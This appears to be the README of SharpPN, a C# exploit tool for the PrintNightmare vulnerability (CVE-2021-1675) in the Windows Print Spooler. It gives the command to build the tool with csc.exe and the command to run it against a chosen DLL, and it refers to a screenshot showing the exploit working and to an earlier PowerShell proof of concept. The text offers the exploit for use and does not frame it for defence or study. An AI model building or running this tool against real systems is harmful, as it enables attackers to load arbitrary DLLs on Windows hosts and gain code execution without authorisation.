 # C# PrintNightmare (CVE-2021-1675)

You'll need a DLL to use SharpPN. So once you have that, just build and specify the dll path in the command-line arguments.

## Build  
You can build yourself with `C:\Windows\Microsoft.NET\Framework64\v3.5\csc.exe -out:SharpPN.exe C:\Path\to\Program.cs` or by opening the .sln file with Visual Studio and building there.

## Usage  
`.\SharpPN.exe -DLL C:\path\to\your\dll`  

![Alt text](/images/SharpPN_Working.PNG)


### References  
Caleb Stewart & John Hammond's PowerShell PoC: https://github.com/calebstewart/CVE-2021-1675
